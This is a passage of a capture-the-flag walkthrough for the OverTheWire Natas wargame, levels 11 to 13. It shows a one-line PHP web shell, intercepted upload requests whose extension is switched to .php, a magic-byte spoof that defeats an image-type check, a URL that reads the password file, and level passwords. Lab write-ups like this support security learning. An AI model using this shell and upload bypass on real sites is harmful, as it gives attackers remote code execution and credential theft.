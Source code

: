So the cookie data we inject is `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK`
```
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

## Level 12

Level 12 asks to upload a file. Uploading is in general a high risk activity for web apps. We know this site is php, so if we can upload a php script we can likely get Remote Code Execution.

Write a script locally like

```php
<?php system($_GET['cmd']); ?>
```
When we upload it the script is saved as a jpeg. Even though the app provides a direct link to it we can't execute our script. Let's try intercept the upload request.

The message body is
```
------WebKitFormBoundaryH40qv1TXMwrFpo5X
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryH40qv1TXMwrFpo5X
Content-Disposition: form-data; name="filename"

dw7vylfsn3.jpg
------WebKitFormBoundaryH40qv1TXMwrFpo5X
Content-Disposition: form-data; name="uploadedfile"; filename="temp.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryH40qv1TXMwrFpo5X--
```
If we rename `dw7vylfsn3.jpg` to `dw7vylfsn3.php` it still uploads correctly. Browse to the linked file, add a command parameter to the url and we have RCE. `cat` the password file and we are done.

```
http://natas12.natas.labs.overthewire.org/upload/dw7vylfsn3.php?cmd=cat%20/etc/natas_webpass/natas13
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## Level 13

Same as Level 12 but we have some input validation this time.

Viewing the source code we can see it validates the file using the php function `exif_imagetype`. Let's see if we can spoof it using magic numbers.

First we upload an image and capture the request in our proxy.

```
------WebKitFormBoundaryfEFEKufAuFJ4NUeX
Content-Disposition: form-data; name="uploadedfile"; filename="download.jpg"
Content-Type: image/jpeg

ÿØÿà
```
Grab the start of the image data, copy it into another capture request were we try to upload an php command as above. Make sure to rename the file again.
```
oj6ah4y4jv.php
------WebKitFormBoundaryrcfbCeQiQY2IEsxl
Content-Disposition: form-data; name="uploadedfile"; filename="temp.jpg.php"
Content-Type: application/octet-stream

```